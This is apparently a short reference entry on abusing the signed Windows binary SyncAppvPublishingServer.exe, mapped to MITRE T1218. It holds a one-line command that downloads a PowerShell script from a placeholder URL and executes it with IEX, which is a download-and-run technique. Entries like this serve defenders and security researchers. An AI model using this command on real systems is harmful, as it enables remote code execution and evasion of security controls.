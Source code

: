 ## Syncappvpublishingserver.exe
```

SyncAppvPublishingServer.exe "n;(New-Object Net.WebClient).DownloadString('http://some.url/script.ps1') | IEX"
Execute powershell code from URL
```
* Windows binary: True   
* Bypasses Default AppLocker Rules: False   
* Mitre: [T1218](https://attack.mitre.org/wiki/Technique/T1218)   
   
* Links:   
  * https://twitter.com/monoxgas/status/895045566090010624
   
* File path:   
  * C:\Windows\System32\Syncappvpublishingserver.exe
  * C:\Windows\SysWOW64\Syncappvpublishingserver.exe
   
* Acknowledgement:   
  * Name: Nick Landers
    * Twitter: [@monoxgas](https://twitter.com/@monoxgas)
    * Blog: 
   
OS:  
